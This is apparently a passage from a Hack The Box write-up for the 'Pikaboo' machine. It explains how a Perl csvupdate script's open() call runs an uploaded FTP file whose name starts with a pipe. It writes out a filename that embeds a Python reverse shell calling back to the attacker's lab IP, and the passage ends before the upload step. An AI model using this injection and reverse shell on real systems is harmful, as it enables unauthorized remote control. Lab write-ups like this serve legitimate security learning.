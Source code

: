 [https://cheatsheet.haax.fr/linux-systems/programing-languages/perl](https://cheatsheet.haax.fr/linux-systems/programing-languages/perl/)

[https://stackoverflow.com/questions/26614348/perl-open-injection-prevention](https://stackoverflow.com/questions/26614348/perl-open-injection-prevention)

[https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543)

[https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_2-Command-Injections.pdf](https://research.cs.wisc.edu/mist/SoftwareSecurityCourse/Chapters/3_8_2-Command-Injections.pdf)

[https://perl-begin.org/topics/security/code-markup-injection](https://perl-begin.org/topics/security/code-markup-injection/)

After a lot of reading and trial and error I found we could exploit the csvupdate Perl script by uploading a file and renaming it so the starting character is a pipe. Then we get code execution of anything after it.

I tried a classic Pentestmonkey [Python reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) which didn't work. A simpler one used on other boxes did work though.

To exploit this we need our file to be called this once it's uploaded via ftp:

```python
"|python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.239\",1338));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([""\"sh\",""\"-i\"])';.csv"
```

Notice the first character is the | then the code after gets executed. Which for the above will use Pyhton to open that shell back to us on Kali. Also see that I've had to do an number of extra backslashes to ensure special characters are processed properly.

With that command changed to have our Kali tun0 IP and port we just paste it in as part of the put command. First log in to FTP:

```text
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Change to a different folder from the root one as we haven't got rights there:

```text
ftp> cd versions
250 Directory successfully changed.
```

Use the put command, we need a local file to upload here I've just created a blank one called test. Then we paste our command from above on the end:
